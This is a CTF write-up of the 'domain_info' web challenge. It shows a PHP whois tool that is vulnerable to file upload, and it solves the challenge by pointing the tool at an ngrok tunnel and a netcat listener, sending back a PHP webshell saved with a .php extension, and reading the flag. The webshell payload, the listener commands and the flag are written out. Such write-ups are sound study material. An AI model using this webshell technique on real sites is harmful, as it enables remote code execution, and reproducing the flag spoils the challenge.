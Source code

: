 # domain_info

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Our team found an suspicious server which allows dns queries, find out how to exploit it. Ngrok could be helpful! Flag is : `/flag.txt`

#### Author: skyv3il

#### Files: [challenge.zip](https://github.com/emperorpenguincat/Public-Writeups/blob/main/UniVsThreats%20CTF%202025/domain_info/challenge.zip)

#### Preview:
![image](https://github.com/user-attachments/assets/dc750e76-388a-4a5b-b5c9-af43c96b95ff)

## Solution
<details>

The web-based challenge gave us a PHP source code and a webpage that had similar features to a WHOIS website. Firstly, we use simple queries to test out the web response to understand its behaviour.

![image](https://github.com/user-attachments/assets/7a2594fa-fe26-4256-9c65-0fc537586de7)

As we can see, a randomly generated filename containing the query response is kept in the '/uploads/' directory, and the website allows us to specify any file type extension we want to.

![image](https://github.com/user-attachments/assets/4003346f-4e69-40c1-afbf-4b83d0678f85)

However, the file's response has no relevant information, so let's examine the source code to identify the website's potential vulnerabilities.

### Source Code (PHP)

```php
<?php
function cleanUploads($path, $minutes = 2) {
    foreach (glob($path . "/*") as $file) {
        if (is_file($file) && (time() - filemtime($file)) > ($minutes * 60)) {
            unlink($file);
        }
    }
}

function randomString($length = 6) {
    return substr(str_shuffle("abcdefghijklmnopqrstuvwxyz0123456789"), 0, $length);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $host = $_POST['host'];
    $port = $_POST['port'];
    $query = $_POST['query'];
    $savefile = $_POST['savefile'];

    // Basic anti-command injection filters
    foreach ([$host, $port, $query, $savefile] as $input) {
        if (preg_match('/[;&|`$()<>]/', $input)) {
            die("<p style='color:red;'>❌ Command Injection Detected!</p>");
        }
    }

    // Extra simple validation
    if (!filter_var($host, FILTER_VALIDATE_IP) && !filter_var($host, FILTER_VALIDATE_DOMAIN)) {
        die("<p style='color:red;'>❌ Invalid Hostname</p>");
    }

    // Safe escaping
    $host = escapeshellarg($host);
    $port = escapeshellarg($port);
    $query = escapeshellarg($query);

    // Create uploads folder if not exists
    $uploadDir = __DIR__ . '/uploads';
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0755, true);
    }

    // Cleanup old files
    cleanUploads($uploadDir, 2); // Delete files older than 2 minutes

    // Randomize file name
    if (empty($savefile)) {
        $savefile = "output.txt";
    }
    $randomPrefix = randomString();
    $finalName = $randomPrefix . "_" . basename($savefile);
    $savepath = $uploadDir . '/' . $finalName;

    // Execute
    $command = "whois -h " . $host . " -p " . $port . " " . $query  . " >  " . escapeshellarg($savepath);
    system($command);
    echo "Command: <pre>" . htmlspecialchars($command) . "</pre>";
    echo "<h2>✅ Whois Executed. Saved in:</h2>";
    echo "<pre>/uploads/" . htmlspecialchars($finalName) . "</pre>";
    echo "<p><a style='color:#00ffea;' href='/uploads/" . htmlspecialchars($finalName) . "' target='_blank'>Click here to view your file</a></p>";
}
?>
```

Based on the provided source code, we can observed that it prevents simple command injection by blacklisting shell characters using `preg_match()` and `escapeshellarg()` function to execute shell commands securely so direct command injection will be difficult. It also uses `filter_var()` to validate the host and variable `$command` where the query will be executed inside the `system()` function. Since the website accepts host and port, we can establish a simple reverse shell like this: 

#### Set up a ngrok TCP tunnel

*Note: To create TCP tunneling using ngrok, it is required to fill credit card info into your account but don't worry. It is still free.*

`ngrok tcp 1337`

Then, the ngrok application will assign us a random host IP address and port to which we can connect later.

#### Set up a netcat listener

`nc -lvnp 1337`

Before submitting the request, we need to configure the listener so that when the victim executes the query, it connects to our host.

#### Fill up the host and port provided by ngrok

We can send the request after completing the form, which looks like this.

![image](https://github.com/user-attachments/assets/965a1089-0260-4c5d-b0c5-08125f58bb59)

When the request has been sent, the netcat connection will be established. We can see that string "test" were displayed which we specified earlier indicates that the connection is successful. 

![image](https://github.com/user-attachments/assets/231f603d-5fb5-4bbb-8fa6-a1b2c6e1341d)

Then, we can inject a simple webshell such as `<?php system($_GET['cmd'];)?>`.

![image](https://github.com/user-attachments/assets/42a50d9d-df3e-4a2b-8ed9-cca4358eb3a0)

![image](https://github.com/user-attachments/assets/7d7d94fc-3833-4aec-a8c4-c692e2a4a324)

![image](https://github.com/user-attachments/assets/d31e6ea9-1e77-40e4-878a-14a1b37dbbb1)

![image](https://github.com/user-attachments/assets/a08d6ed9-c5e4-4217-8a89-6f9b90c4068f)

![image](https://github.com/user-attachments/assets/bcf6fbc3-7431-45d7-a3c1-dca89b564344)

#### Flag
> UVT{M4l1c10us_Wh0_1s_C0mmand_4nd_upl0ad}

</details>
